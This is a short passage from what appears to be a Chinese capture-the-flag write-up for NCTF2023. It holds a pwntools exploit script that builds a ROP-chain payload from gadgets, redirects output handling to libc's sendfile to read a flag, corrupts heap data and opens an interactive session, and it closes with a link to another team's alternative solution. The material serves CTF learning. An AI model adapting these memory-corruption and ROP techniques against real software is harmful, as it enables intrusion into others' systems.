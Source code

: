 ```python
payload3=b'a'*0x30+flat([
    modify(stderr_addr, pop_rdi-pop_rdx),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(1),
	modify(stderr_addr, pop_rsi- pop_rdi),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(0),
	modify(stderr_addr, pop_rdx_rcx_rbx-0x111111-pop_rsi),
    modify(stderr_addr,0x111111),
	p64(pop_rbp),
	p64(flag_addr-0x18),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
	p64(0),
	p64(0x50),
	p64(0),
	modify(stdout_addr,libc.sym['sendfile'] -0x111111-libc.sym['connect']),
    modify(stdout_addr,0x111111),
	p64(pop_rbp),
	p64(flag_addr),
	p64(mov_rax),
	p64(0),
	p64(jmp_rax),
])
edit_func(4,payload3)



print(hex(len(payload)))
lg("heap_addr")
#mydbg()
pause()

edit(0,0x1f0,b"a"*0x220+p64(heap_addr+0x1100+0x38)+p64(0x0402395)+b"\n")
p.interactive()

```

#### 思路二

另一种解法，可见星盟安全团队的wp：https://blog.xmcve.com/2023/12/28/NCTF2023-Writeup/#title-13
